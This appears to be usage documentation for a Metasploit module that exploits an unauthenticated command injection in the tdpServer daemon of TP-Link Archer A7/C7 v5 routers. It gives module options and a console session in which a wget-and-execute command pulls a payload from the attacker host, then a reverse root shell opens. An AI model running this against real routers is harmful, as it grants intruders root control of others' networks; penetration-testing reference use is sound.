 ## Description

This module exploits a command injection vulnerability in the tdpServer daemon (/usr/bin/tdpServer), running on the router TP-Link Archer A7/C7 (AC1750), hardware version 5, MIPS Architecture, firmware version 190726.
The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker will be able to execute any command as root, including downloading and executing a binary from another host.

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the Flashback team (Pedro Ribeiro + Radek Domanski).
This module was updated in November 2020, after a bypass was discovered for the patch TP-Link issued. The new injection technique works on older firmware too. All firmware versions up to releases 201029 and 201030 are exploitable.


## Vulnerable Application

TP-Link Archer A7 (AC1750) v5 firmware version 190726
TP-Link Archer C7 (AC1750) v5 firmware version 190726

[Firmware TP-Link Archer A7](https://static.tp-link.com/2019/201908/20190827/Archer%20A7(EU)_V5_190811.zip)
[Firmware TP-Link Archer C7](https://static.tp-link.com/2019/201908/20190816/Archer%20C7(EU)_V5_190726.zip)


## Verification Steps
  Example steps in this format (is also in the PR):

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use exploits/linux/misc/tplink_archer_a7_c7_lan_rce```
  4. Set RHOST, LHOST and SRVHOST
  5. Do ```check```
  6. Do: ```run```
  7. You should get a shell.
 
## Options
```
Module options (exploit/linux/misc/tplink_archerC7_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    20002            yes       The target port (TCP)
   SRVHOST                   yes       IP address of the host serving the exploit
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/mipsbe/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

## Scenarios
~~~
msf5 > use exploits/linux/misc/tplink_archer_a7_c7_lan_rce
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set LHOST 192.168.0.238
LHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set SRVHOST 192.168.0.238
SRVHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > check 
[+] 192.168.0.1:20002 - The target is vulnerable.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > 
[*] Started reverse TCP handler on 192.168.0.238:4444 
[*] Attempting to exploit TP-Link Archer A7/C7 (AC1750) v5 (firmware 190726)
[*] Starting up our web service on http://192.168.0.238:4445 ...
[*] Using URL: http://192.168.0.238:4445/x
[*] 192.168.0.1:20002 - Connecting to the target
[*] 192.168.0.1:20002 - Sending command file byte by byte
[*] 192.168.0.1:20002 - Command: wget http://192.168.0.238:4445/x;chmod +x x;./x
[*] 192.168.0.1:20002 - [0%]= = => - - - - - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = => - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = => - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = => - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = = = = = =>[100%]
[*] 192.168.0.1:20002 - Command file sent, attempting to execute...
[+] 192.168.0.1:20002 - Sending executable to the router
[+] 192.168.0.1:20002 - Sit back and relax, Shelly will come visit soon!
[*] Command shell session 1 opened (192.168.0.238:4444 -> 192.168.0.1:48112) at 2020-03-26 16:47:09 +0100
[*] Server stopped.

msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > sessions 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root)
uname -a
Linux ArcherC7v5 3.3.8 #1 Mon May 20 18:53:02 CST 2019 mips GNU/Linux
~~~
